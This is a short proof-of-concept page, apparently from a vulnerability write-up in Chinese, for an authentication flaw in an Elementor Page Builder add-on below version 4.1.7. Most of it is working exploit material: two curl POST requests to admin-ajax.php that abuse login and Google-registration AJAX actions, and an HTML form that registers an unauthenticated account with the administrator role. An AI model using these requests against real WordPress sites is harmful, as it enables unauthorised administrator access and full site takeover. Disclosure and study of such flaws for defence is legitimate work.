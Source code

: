 影響版本
--------

Elementor Page Builder \<4.1.7

POC
---

    curl -X POST --data action=theplus_ajax_login --data email=admin -iLSS https://example.com/wp-admin/admin-ajax.php
    curl -X POST --data action=theplus_google_ajax_register --data email=admin --data nonce=a -iLSS https://example.com/wp-admin/admin-ajax.php

"theplus_google_ajax_register" AJAX請求還可以允許任何未經身份驗證的用戶創建具有任意角色的帳戶，例如admin，然後登錄。

html：

    <form method="POST" action="https://example.com/wp-admin/admin-ajax.php">
    <input value="newadmin" name="name" type="text">
    <input value="test@example.com" name="email" type="text">
    <input value="test" name="password" type="text">
    <input value="theplus_google_ajax_register" name="action" type="text">
    <input value="administrator" name="tp_user_reg_role" type="text">
    <input value="any" name="nonce" type="text">
    <input type="submit" />
    </form>
